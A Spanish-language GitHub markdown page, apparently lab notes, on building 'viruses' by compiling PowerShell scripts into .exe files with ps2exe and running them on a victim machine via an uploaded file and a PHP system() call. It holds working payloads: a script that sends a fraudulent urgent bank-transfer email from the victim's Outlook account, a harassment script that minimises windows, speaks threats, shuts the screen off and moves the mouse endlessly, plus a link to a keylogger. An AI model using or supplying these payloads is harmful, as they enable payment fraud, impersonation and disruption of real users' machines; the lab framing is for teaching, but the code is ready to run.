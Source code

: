 # CREACIÓN DE VIRUS (VERSIÓN .EXE)
<p align="center">
<img src="https://media.giphy.com/media/115BJle6N2Av0A/giphy.gif" />
</p>
Vamos a crear con powershell script que posteriormente convertiremos en archivos ejecutables (.exe). Para ello usaremos WIN-PS2EXE (Modo Gráfico)

Instalaremos con powershell el modulo (modo administrador)
```powershell
Install-Module -Name ps2exe
```
Posteriormente abriremos el programa de forma gráfica.
```powershell
win-ps2exe
```
Para crear el .exe solo tenemos que introducir la ruta del script .ps1 en SOURCE FILE y la ruta + el nombre del archivo (incluyendo la extension .exe) en Target file.
<br/>
<p align="center">
<a href="https://i.stack.imgur.com/iZ9es.png"><img src="https://i.stack.imgur.com/iZ9es.png" /></a>
</p>
<br/>
Para mas dudas con la instalación visita [ESTE ENLACE](https://www.optimizationcore.com/scripting/powershell-ps1-to-exe-converter-ps2exe-markus-scholtes/) .

## MODUS OPERANDI
Para crear el laboratorio, trabajaremos con localhost en xampp y vamos a crear un **formulario** al cual subiremos los ejecutables que se guardarán en una carpeta **Upload** (propiedad de la victima) donde posteriormente ejecutaremos.
Para ello crearemos un PHP dentro de htdocs con lo siguiente:
```powershell
<?php
system(".\\uploads\\hola.exe");
?>
```

Aqui podemos ver como crearlo [Formulario y carpeta upload](https://github.com/PabloQueipo/IAW/blob/cf923c250a9a52f6598e0b01b7d996cb9978ef58/2020_11_27.md)

------------------------------

## CASOS VARIOS
<p align="center">
<a href="https://www.campusciberseguridad.com/media/k2/items/cache/9267284e7733f4bec00d2e114d3f3ba1_XL.jpg"><img src="https://www.campusciberseguridad.com/media/k2/items/cache/9267284e7733f4bec00d2e114d3f3ba1_XL.jpg" /></a>
</p>

### PHISHING
Haciendo una investigación previa se consiguen correos electronicos de personal de la empresa y desde la cuenta de la víctima mandaremos un correo a otro compañero pidiendo un ingreso en una cuenta bancaria.

```powershell
$Outlook = New-Object -ComObject Outlook.Application
$Mail = $Outlook.CreateItem(0)
$Mail.To = "keipo20@gmail.com"
$Mail.Subject = "URGENTE"
$Mail.Body ="Buenos días, haz un ingreso de 100 € a la Cuenta Bancaria siguiente: xx xxxx xx xxxx xxxxxxxxxxx"
$Mail.Send()
```

### MOLESTAR

Ejecutable con la siguiente secuencia:
1. Minimizar todas las pantallas.
2. Voz con mensaje
3. Gif que habremos introducido junto con el .exe
4. Voz con mensaje y posterior apagar pantalla
5. Bucle que mueve el ratón.

```powershell
(New-Object -ComObject Shell.Application).MinimizeAll()
(New-Object -com SAPI.SpVoice).speak("Acabo de entrar en tu ordenador")
Start-Process ".\\uploads\\hacker.gif"

Start-Sleep 1
(New-Object -com SAPI.SpVoice).speak("TE VOY A APAGAR LA PANTALLA")

$code = @"
using System;
using System.Runtime.InteropServices;
public class API
{
    [DllImport("user32.dll")]
    public static extern
    int SendMessage(IntPtr hWnd, UInt32 Msg, IntPtr wParam, IntPtr lParam);
}
"@
$t = Add-Type -TypeDefinition $code -PassThru
$t::SendMessage(0xffff, 0x0112, 0xf170, 2)

for(1)
{
    Start-Sleep -Seconds 1
    $xa = [System.Windows.Forms.Cursor]::Position.X
    $ya = [System.Windows.Forms.Cursor]::Position.y
    Write-Host $xa $ya
    Start-Sleep -Seconds 1
    [System.Windows.Forms.Cursor]::Position=New-Object System.Drawing.Point(($xa+50),($ya+50))
    $xa = [System.Windows.Forms.Cursor]::Position.X
    $ya = [System.Windows.Forms.Cursor]::Position.y
    Write-Host $xa $ya
}
```




### CREACIÓN DE KEYLOGGER (PYTHON)
[Pablo Queipo Keylogger](https://github.com/PabloQueipo/SAD/blob/83925cc70ef76fc94868dacb8c112919c6221c53/2020_11_09.md9)
